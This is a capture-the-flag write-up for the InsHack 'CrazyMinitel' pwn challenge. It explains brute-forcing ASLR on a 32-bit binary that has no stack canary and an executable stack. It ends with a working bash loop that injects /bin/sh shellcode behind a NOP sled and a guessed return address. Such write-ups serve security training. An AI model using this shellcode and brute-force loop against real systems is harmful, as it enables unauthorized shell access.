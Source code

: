```yaml
---
title: "InsHack -- CrazyMinitel Writeup"
categories:
  - InsHack
tags:
  - CTF
  - pwn
---
```


> Mmmh my connected spoon has a strange behaviour, maybe a backdoor? Could you have a look?

<div class="notice--info">
<strong>Name</strong>: CrazyMinitel<br>
<strong>Category</strong>: pwn<br>
<strong>Points</strong>: 125<br>
<strong>Solves</strong>: 77<br>
<strong>Given</strong>: <code>crazy-minitel</code><br> <!-- Link the files here to my repository with it -->
</div>


## Checksec
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled       (<- we CAN use shelldode)
    PIE:      No PIE
    ASLR:     ENABLED           (<- we CANNOT realiably know where the stack is)

# Solution:
**By:** Vasco Franco (jofra)

This is very similar to crazy-minitel, so I will assume you have read that writeup, and just focus on what's new: `ASLR`!<br>
One change from crazy-minitel is that we have a larger buffer, meaning we can have a bigger **nop sled**.<br><br>
With that in mind, lets just bruteforce ASLR. From running the program in gdb what I found that:
 - The first byte '`bf`' never changed. So thats **8 bits** we don't need to guess.
 - We have a NOP SLED of arround 2000 bytes, and, since `2^11 = 2048`, we can take get another free **11 bits**.
 - This leaves use with `32-8-11 = 13bits` to bruteforce. This would mean on average arround **8192 attempts** to guess correctly the stack value, which would certainly be doable, but I got a shell after only ~75 trys, which means either my math is wrong or I was just very lucky.

I launched this little script to bruteforce the ASLR, went to eat something, and when I got back I had a shell waiting for me. :)
```bash
#!/bin/bash
while :
do
    ~/vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(1950, '\x90') + 'A'*(2012-1950) + '\xb0\xba\xad\xbf'")
done
```